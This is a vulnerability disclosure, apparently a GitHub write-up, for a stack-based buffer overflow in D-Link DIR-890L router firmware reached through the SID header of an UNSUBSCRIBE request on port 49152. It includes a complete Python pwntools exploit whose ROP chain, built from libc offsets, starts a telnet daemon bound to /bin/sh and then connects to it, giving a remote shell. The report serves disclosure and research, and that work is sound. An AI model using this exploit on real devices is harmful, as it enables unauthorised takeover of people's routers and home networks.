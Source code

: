 
# Information

**Vendor of the products:**    D-Link

**Reported by:**    WangJincheng && FeiXincheng

**Affected products:**    D-Link DIR-890L <= v1.07

**Vendor Homepage:**    [https://www.dlink.com](https://www.dlink.com "https://www.dlink.com")

**Vendor Advisory:**     [http://legacyfiles.us.dlink.com/DIR-890L](http://legacyfiles.us.dlink.com/DIR-890L "http://legacyfiles.us.dlink.com/DIR-890L")

# Summarize

The LAN-side Web-Configuration Interface has Stack-based Buffer Overflow vulnerability in the `D-Link` Wi-Fi router firmware `DIR-890L`(version less than `1.07`).

The function created at `0x17958` of `/htdocs/cgibin` will call `sprintf` without checking the length of strings in parameters given by `HTTP header` and can be controlled by users easily.

The attackers can exploit the vulnerability to carry out arbitrary code through sending a specially constructed payload to port `49152`.

# Vulnerability Description

The vulnerability is detected at `/htdocs/cgibin`.

There is a `Stack-based Buffer Overflow vulnerability` in the function created at `0x17A60`. When we use `UNSUBSCRIBE` request, it will call the `sub_17958` function which created at `0x17958`.

However, in the `sub_17958` function, it will call `sprintf` without checking the length of `v2`, which causes the `stack overflow`. The `v2` here is `SID` parameter given by `HTTP header`.

# Poc

```python
# python3
from pwn import *
from socket import *
from os import *
from time import *
context(os = 'linux', arch = 'arm')

libc_base = 0xb6f7e000

s = socket(AF_INET, SOCK_STREAM)

cmd = b'telnetd -l /bin/sh;'
payload = b'a'*449
payload += p32(libc_base + 0x18298) # pop {r3, pc};
payload += p32(libc_base + 0x406f8) # mov r0, r1; pop {r3, pc};
payload += p32(libc_base + 0x390fc) # pc add r1, sp, #0x2c; blx r3;
payload += b'a'*4 # padding
payload += p32(libc_base + 0x5a270) # pc system
payload += b'a'*(0x2c-8) # padding
payload += cmd

msg = b"UNSUBSCRIBE /gena.cgi?service=0 HTTP/1.1\r\n"
msg += b"Host: localhost:49152\r\n"
msg += b"SID: " + payload + b"\r\n\r\n"

s.connect((gethostbyname("192.168.0.1"), 49152))
s.send(msg)

sleep(1)
system("telnet 192.168.0.1 23")
```

# Get Shell

Scan ports before exploit the vulnerability.

Exploit the vulnerability and get shell successfully.

Scan ports again and we can dectect that the port `23` which represents `Telnet` service has been opened.
